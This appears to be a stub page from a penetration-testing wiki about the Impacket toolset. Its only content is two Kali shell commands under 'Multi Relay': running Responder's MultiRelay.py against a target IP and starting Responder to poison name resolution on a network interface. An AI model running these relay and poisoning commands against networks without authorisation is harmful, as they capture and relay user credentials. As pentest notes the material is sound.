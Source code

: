 ```yaml
---
description: A wiki to detail usage of different modules in the Impacket tool set
---
```


# Impacket

### Multi Relay:

```text
root@kali:/usr/share/responder/tools# python MultiRelay.py -t 10.10.6.13 -u ALL
root@kali:~# responder -I eth0 -rv 10.10.1.125
```

